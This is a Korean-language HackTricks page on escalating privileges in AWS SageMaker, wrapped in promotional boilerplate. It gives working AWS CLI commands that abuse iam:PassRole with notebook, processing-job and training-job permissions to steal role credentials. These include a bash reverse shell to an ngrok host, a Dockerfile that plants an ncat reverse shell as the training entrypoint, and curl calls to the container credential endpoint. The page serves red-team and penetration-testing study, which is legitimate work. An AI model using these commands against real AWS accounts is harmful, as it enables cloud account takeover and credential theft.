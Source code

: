 # AWS - Sagemaker 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 자신의 해킹 기법을 공유하세요.

</details>

## `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM 역할이 연결된 노트북을 생성하기 시작하세요:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
다음은 새로 생성된 노트북 인스턴스의 ARN을 포함하는 `NotebookInstanceArn` 필드를 포함한 응답이어야 합니다. 그런 다음 `create-presigned-notebook-instance-url` API를 사용하여 노트북 인스턴스가 준비되면 액세스할 수 있는 URL을 생성할 수 있습니다.
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
브라우저로 URL에 이동하고 오른쪽 상단에있는 `Open JupyterLab`을 클릭 한 다음 "Launcher" 탭으로 스크롤하고 "Other" 섹션에서 "Terminal" 버튼을 클릭합니다.

이제 IAM 역할의 메타데이터 자격 증명에 액세스 할 수 있습니다.

**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

## `sagemaker:CreatePresignedNotebookInstanceUrl`

이미 Jupyter **노트북이 실행 중**인 경우 `sagemaker:ListNotebookInstances`로 목록을 볼 수 있으며 (또는 다른 방법으로 발견 할 수 있음) **이전 기술에서 나타낸대로 URL을 생성하여 액세스하고 자격 증명을 도용 할 수 있습니다**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**잠재적 영향:** 연결된 sagemaker 서비스 역할에 대한 권한 상승

## `sagemaker:CreateProcessingJob,iam:PassRole`

해당 권한을 가진 공격자는 **sagemaker가 sagemaker 역할이 연결된 처리 작업**을 실행하도록 할 수 있습니다. 공격자는 **AWS 관리 ECS 계정 인스턴스**에서 실행될 컨테이너의 정의를 지정하고, **연결된 IAM 역할의 자격 증명을 탈취**할 수 있습니다.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**잠재적 영향:** 지정된 sagemaker 서비스 역할에 대한 권한 상승

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

이러한 권한을 가진 공격자는 훈련 작업을 생성할 수 있으며, 그 작업에 연결된 역할을 가진 임의의 컨테이너를 실행할 수 있습니다. 따라서, 공격자는 역할의 자격 증명을 도용할 수 있습니다.

{% hint style="warning" %}
이 시나리오는 이전 시나리오보다 공격이 어렵습니다. 왜냐하면 훈련 작업의 구성에서 시작 명령을 지정할 수 없기 때문에, 공격자는 리버스 쉘이나 자격 증명을 직접 공격자에게 전송하는 도커 이미지를 생성해야 합니다.
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**잠재적 영향:** 지정된 Sagemaker 서비스 역할에 대한 권한 상승

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

이러한 권한을 가진 공격자는 (잠재적으로) **하이퍼파라미터 튜닝 작업**을 생성하고, 그 위에서 **임의의 컨테이너를 실행**하며, 그에 **연결된 역할**을 사용할 수 있습니다.\
_시간 부족으로 인해 이를 악용하지는 않았지만, 이전의 취약점과 유사해 보입니다. 악용 세부 정보를 보내주시면 PR을 보내주시기 바랍니다._

# 참고 자료
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
